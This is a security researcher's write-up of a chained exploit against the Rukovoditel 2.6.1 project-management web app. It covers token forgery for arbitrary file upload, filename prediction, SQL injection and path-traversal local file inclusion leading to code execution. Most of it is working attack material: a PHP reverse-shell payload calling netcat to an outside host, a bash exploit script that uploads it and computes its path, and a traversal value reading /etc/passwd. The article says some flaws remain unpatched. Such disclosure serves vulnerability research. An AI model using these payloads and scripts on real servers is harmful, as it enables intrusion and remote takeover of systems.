










# C1010: Rukovoditel v2.6.1, File Upload + LFI to RCE (authenticated)

Well, well, well, ...

It's time to publish the last post dedicated to Rukovoditel who had the time during the writing of this chapter, to update from version 2.6.1 to 2.7 as you can see on their [download page](https://www.rukovoditel.net/download.php), but luckily for us some of the vulnerabilities haven't been patched.

This chapter will be divided into two parts, each of them will address one vulnerability. It will be shown that by combining these two vulnerabilities that it is possible to execute arbitrary code on the underlying system.

First we will see how it is possible to upload an arbitrary file to the server.

## Part 1: Arbitrary File Upload

### Why?

As for the previous vulnerability I was interested in the part of code which we can interact whith as a user (with least privileges). And it is within the user management module that I found my happiness.

File: <span style="color:red">\<ROOT\>/modules/users/actions/account.php</span>
```php

...

case 'attachments_upload':
    $verifyToken = md5($app_user['id'] . $_POST['timestamp']);
    if(strlen($_FILES['Filedata']['tmp_name']) and $_POST['token'] == $verifyToken)
    {
        $file = attachments::prepare_filename($_FILES['Filedata']['name']);
        if(move_uploaded_file($_FILES['Filedata']['tmp_name'], DIR_WS_ATTACHMENTS  . $file['folder']  .'/'. $file['file']))
        {
            attachments::resize(DIR_WS_ATTACHMENTS  . $file['folder']  .'/'. $file['file']);
            $sql_data = array('form_token'=>$verifyToken,'filename'=>$file['name'],'date_added'=>date('Y-m-d'),'container'=>$_GET['field_id']);
            db_perform('app_attachments',$sql_data);
            if(class_exists('file_storage'))
            {
                $file_storage = new file_storage();
                $file_storage->add_to_queue($_GET['field_id'], $file['name']);
            }

        }
    }
    exit();
    break;

...

```

Let's start from the beginning and let's build what will allow us to exploit ...

The first thing to do is to add debug to test if the code is reachable.

File: <span style="color:red">\<ROOT\>/modules/users/actions/account.php</span>
```php

...

case 'attachments_upload':
    echo "[DEBUG]: Start\n";

    ...

    exit();
    break;

...

```

```
▶ curl "http://127.0.0.1/projects/rukovoditel_2.6.1/index.php?module=users/account&action=attachments_upload" -H "Cookie: sid=1e58bba933b8f378888b9dc000e0901f"
[DEBUG]: Start
```

Now that we are able to interact with it, we need to validate the conditions allowing us to upload a file.

##### $verifyToken ... WTF is that ? Long live code reuse

If you remember the first chapter of this epic story, you have to remember that the developer of the wordpress plugin thought he had implemented some kind of security thanks to the famous `$verifyToken`.

See chapter [C0: Wordpress plugin Simple File List <= v4.2.2, RCE (pre-auth)](/c0)
```php
$verifyToken = md5('unique_salt' . $_POST['eeSFL_Timestamp']);
```

Which strangely looks like:

```php
$verifyToken = md5($app_user['id'] . $_POST['timestamp']);
```

It seems that this piece of code is published on different forums and git repositories by the way.





Anyway, `$verifyToken` is crafted from `$app_user['id']` and `$_POST['timestamp']`. We control `$_POST['timestamp']` so the only remaining part is to know the value of `$app_user['id']`. By making a request to \<BASE_URL\>/index.php?module=users/account it is possible to parse the server responses to extract the value.

```
▶ curl -s "http://127.0.0.1/projects/rukovoditel_2.6.1/index.php?module=users/account" -H "Cookie: sid=1e58bba933b8f378888b9dc000e0901f" | grep "validate_form&id=" | cut -d '=' -f 3 | cut -d "'" -f 1
20
```

Now all we have to do is add some additional debugging to see what can we reach.

File: <span style="color:red">\<ROOT\>/modules/users/actions/account.php</span>
```php

...

case 'attachments_upload':
    echo "[DEBUG]: Start\n";

    $verifyToken = md5($app_user['id'] . $_POST['timestamp']);

    if(strlen($_FILES['Filedata']['tmp_name']) and $_POST['token'] == $verifyToken)
    {
        $file = attachments::prepare_filename($_FILES['Filedata']['name']);

        if(move_uploaded_file($_FILES['Filedata']['tmp_name'], DIR_WS_ATTACHMENTS  . $file['folder']  .'/'. $file['file']))
        {
            echo "Hit!";
    ...

        }
    }
    exit();
    break;

...

```

Create a test file to validate that it is correctly uploaded on the server.

File: <span style="color:red">test.php</span>
```php
<?php system("nc -e /bin/sh 172.18.0.1 4444"); ?>
```

#### ʎppᴉʞ ʇdᴉɹɔS

We can try to upload a file manually or perform a quick exploit written in bash.

File: <span style="color:red">exploit.sh</span> 
```bash
BASE_URL=$1
SID=$2
echo "Setting target: $BASE_URL"
echo "Setting sid: $SID"

echo ""

echo "Extracting \$app_user['id']:"
APP_USER_ID=`curl -s "$BASE_URL/index.php?module=users/account" -H "Cookie: sid=$SID" | grep "validate_form&id=" | cut -d '=' -f 3 | cut -d "'" -f 1`
echo "  =>  \$app_user['id']: $APP_USER_ID"

echo "Setting arbitrary \$_POST['timestamp']:"
TIMESTAMP=1337
echo "  =>  \$_POST['timestamp']: 1337"

echo "Calculating \$verifyToken:"
VERIFY_TOKEN=`echo -n "$APP_USER_ID$TIMESTAMP" | md5sum | cut -d ' ' -f 1`
echo "  =>  \$verifyToken: $VERIFY_TOKEN"

echo ""

echo "[*] Trying to upload test.php ..."
curl "$BASE_URL/index.php?module=users/account&action=attachments_upload" -H "Cookie: sid=$SID" -F "timestamp=$TIMESTAMP" -F "token=$VERIFY_TOKEN" -F 'Filedata=@test.php'
```

Which gives us the following result once launched:

```
▶ ./exploit.sh http://127.0.0.1/projects/rukovoditel_2.6.1/ 1e58bba933b8f378888b9dc000e0901f
./exploit.sh: line 3: =test.php: command not found
Setting target: http://127.0.0.1/projects/rukovoditel_2.6.1/
Setting sid: 1e58bba933b8f378888b9dc000e0901f

Extracting $app_user['id']:
  =>  $app_user['id']: 20
Setting arbitrary $_POST['timestamp']:
  =>  $_POST['timestamp']: 1337
Calculating $verifyToken:
  =>  $verifyToken: e00146591f2c03c61dfad23ce2e77362

[*] Trying to upload ...
[DEBUG]: Start
Hit!
```

It seems like we hit further in the code, that's why I checked if the file was correctly created on the remote filesystem.

```
▶ ls <ROOT>/uploads/attachments/2020/06/11/
a1ccd0b803a0561729c06283327453cb17e2c020
▶ cat <ROOT>/uploads/attachments/2020/06/11/a1ccd0b803a0561729c06283327453cb17e2c020
<?php system("nc -e /bin/sh 172.18.0.1 4444"); ?>
```

#### Problems

We then face two problems:
1. We need to predict the remote filename.
2. The file is not directly accessible and moreover does not have the PHP extension which implies that we need to include it with functions such as:

    -    include
    -    require
    -    require_once
    -    ...
    
    in order to execute it's content.

#### Solution 1

The filename is generated by the function `prepare_filename()` as it can be seen from the condition`if(move_uploaded_file($_FILES['Filedata']['tmp_name'], DIR_WS_ATTACHMENTS  . $file['folder']  .'/'. $file['file']))`. So let's dive in this functions's code:

File: <span style="color:red">\<ROOT\>/includes/classes/attachments.php</span>
```php
public static function prepare_filename($filename)
{
$filename = str_replace(array(" ",","),"_",trim($filename));

if(!is_dir(DIR_WS_ATTACHMENTS  . date('Y'))) 
{
    mkdir(DIR_WS_ATTACHMENTS  . date('Y'));
}

if(!is_dir(DIR_WS_ATTACHMENTS  . date('Y') . '/' . date('m')))
{
    mkdir(DIR_WS_ATTACHMENTS  . date('Y'). '/' . date('m'));
}

if(!is_dir(DIR_WS_ATTACHMENTS  . date('Y') . '/' . date('m') . '/' . date('d')))
{
    mkdir(DIR_WS_ATTACHMENTS  . date('Y'). '/' . date('m'). '/' . date('d'));
}

return array('name'=>time() . '_' . $filename,
                'file'=>(CFG_ENCRYPT_FILE_NAME==1 ? sha1(time() . '_' . $filename) : time() . '_' . $filename),
                'folder'=>date('Y') . '/' . date('m') . '/' . date('d'));
}
```

In the above code is defined a string variable `$filename` which correspond to the filename of the initial file uploaded as it is refered by `$file = attachments::prepare_filename($_FILES['Filedata']['name']);`. The name of the resulting file is the result of the `sha1()` function which has as its parameter the string `time() . '_' . $filename`.

>time — Return current Unix timestamp.
>```
>time ( void ) : int
>```
>Returns the current time measured in the number of seconds since the Unix Epoch (January 1 1970 00:00:00 GMT). 

To recover the timestamp generate from the `time()` function we may be able to use the value of the `Date` Header returned by the server. Once this is implemented, we get the following exploit:

File: <span style="color:red">exploit.sh</span> 
```bash
BASE_URL=$1
SID=$2
echo "Setting target: $BASE_URL"
echo "Setting sid: $SID"

echo ""

echo "Extracting \$app_user['id']:"
APP_USER_ID=`curl -s "$BASE_URL/index.php?module=users/account" -H "Cookie: sid=$SID" | grep "validate_form&id=" | cut -d '=' -f 3 | cut -d "'" -f 1`
echo "  =>  \$app_user['id']: $APP_USER_ID"

echo "Setting arbitrary \$_POST['timestamp']:"
TIMESTAMP=1337
echo "  =>  \$_POST['timestamp']: 1337"

echo "Calculating \$verifyToken:"
VERIFY_TOKEN=`echo -n "$APP_USER_ID$TIMESTAMP" | md5sum | cut -d ' ' -f 1`
echo "  =>  \$verifyToken: $VERIFY_TOKEN"

echo ""

echo "[*] Trying to upload test.php ..."
curl "$BASE_URL/index.php?module=users/account&action=attachments_upload" -H "Cookie: sid=$SID" -F "timestamp=$TIMESTAMP" -F "token=$VERIFY_TOKEN" -F 'Filedata=@test.php'

echo ""

echo "[*] Trying to recover time() output:"
TIME=$(date -d "`curl -si "$BASE_URL" | grep "Date:" | sed 's/Date: //'`" +%s)
echo "  =>  timestamp: $TIME"

echo "[*] Trying to recover the generated filename:" 
FILENAME=` echo -n $TIME"_test.php" | sha1sum | cut -d ' ' -f 1`
echo "  =>  filename: $FILENAME"

echo "[*] Trying to reconstructing full path:"
DATE=`date +"%Y/%m/%d"`
FULL_PATH=`echo -n "uploads/attachments/$DATE/$FILENAME"`
echo "  =>  full path: $FULL_PATH"
```

")

I specify that if it had not worked directly it would have been possible to brute force the exact timestamp from an approximation made on the value of the Header `Date` or by starting the brute force from the timestamp of the current day.

#### Solution 2

In the previous chapter we learned that it was possible to perform an Error Based SQL injection.

```
▶ curl -s "http://127.0.0.1/projects/rukovoditel_2.6.1/index.php?module=reports/sorting&action=set_sorting_condition&reports_id=88" -H "Cookie: sid=1e58bba933b8f378888b9dc000e0901f" -d "field_id='"

      <app_db_error>
      <div style="color: #b94a48; background: #f2dede; border: 1px solid #eed3d7; padding: 5px; margin: 5px; font-family: verdana; font-size: 12px; line-height: 1.5;">
        <div><strong>Database Error:</strong> 1064 - You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '_desc',''_asc') where id='88'' at line 1</div>
        <div><strong>Query:</strong> update app_reports set listing_order_fields=replace(listing_order_fields,''_desc',''_asc') where id='88'</div>
        <div><strong>Page: </strong> /projects/rukovoditel_2.6.1/index.php?module=reports/sorting&action=set_sorting_condition&reports_id=88</div>
      </div>
    
```

We can use this vulnerability to recover the newly generated filename with the SQL request: `SELECT filename FROM app_attachments ORDER BY id DESC LIMIT 1`.

")

After having explained the two solutions I chose to keep the first one because at least if the SQLi is patched the exploit is still functional.

## Part 2: Local File Inclusion (LFI)

### How?

Now that we've managed to upload a file and find this one on the remote host, we need to find a way to include it in a page.



When a user update his profile and saves the changed parameters, the following POST request is sent.

Update profile request:
```
POST /projects/rukovoditel_2.6.1/index.php?module=users/account&action=update HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------217390065821491289301264851468
Content-Length: 1129
Origin: http://127.0.0.1
Connection: close
Referer: http://127.0.0.1/projects/rukovoditel_2.6.1/index.php?module=users/account
Cookie: cookie_test=please_accept_for_session; sid=1e58bba933b8f378888b9dc000e0901f; user_skin=red; phpMyAdmin=6d60db4f935f7c881151fa4fc636ae88; pma_lang=en; app_login_redirect_to=module%3Ddashboard%2F
Upgrade-Insecure-Requests: 1

-----------------------------217390065821491289301264851468
Content-Disposition: form-data; name="form_session_token"

MexetTEEEJ
-----------------------------217390065821491289301264851468
Content-Disposition: form-data; name="fields[7]"

falice
-----------------------------217390065821491289301264851468
Content-Disposition: form-data; name="fields[8]"

lalice
-----------------------------217390065821491289301264851468
Content-Disposition: form-data; name="fields[10]"; filename=""
Content-Type: application/octet-stream


-----------------------------217390065821491289301264851468
Content-Disposition: form-data; name="files[10]"

1591216709_logo.jpg
-----------------------------217390065821491289301264851468
Content-Disposition: form-data; name="fields[9]"

alice@test.fr
-----------------------------217390065821491289301264851468
Content-Disposition: form-data; name="fields[13]"

english.php
-----------------------------217390065821491289301264851468
Content-Disposition: form-data; name="cfg[disable_notification]"

1
-----------------------------217390065821491289301264851468--
```

If we modify this request to change only the First Name, we get the following results:





If we take for reference the initial request we realize that the choice of language is defined by the use of the <span style="color:red">english.php</span> file (parameter `fields[13]`). Plus, we know that this file's path is <span style="color:red">\<ROOT\>/includes/languages/english.php</span>.

So if we decide to replace our language which is english (<span style="color:red">english.php</span>) by the file `../../../../../../../../../../../../etc/passwd`, it may be possible that the content of this one will be include.







And eventually that's what happens.

The only remaining thing to do, to complete our exploit, is to add the LFI exploitation in order to obtain a RCE.



## Ref

- [POC](https://github.com/therealcoiffeur/therealcoiffeur.github.io/blob/master/tools/Rukovoditel/rce_2.6.1.sh)
